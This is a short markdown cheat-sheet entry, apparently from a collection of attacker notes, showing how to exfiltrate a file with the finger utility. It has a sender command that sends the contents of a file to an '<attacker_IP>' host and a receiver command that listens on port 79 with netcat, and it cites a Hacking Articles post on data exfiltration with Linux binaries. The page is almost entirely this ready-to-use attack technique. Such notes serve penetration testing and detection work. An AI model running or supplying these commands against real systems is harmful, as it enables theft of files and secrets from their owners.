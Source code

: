 # Finger

## 01 - Sender

```
$ finger "$(cat /path/to/file.txt)@<attacker_IP>
```

## 02 - Receiver

```
$ sudo nc -lnvp 79
```

---
## References

### Hacking Articles

- [Hacking Articles: Data Exfiltration Using Linux Binaries](https://www.hackingarticles.in/data-exfiltration-using-linux-binaries/)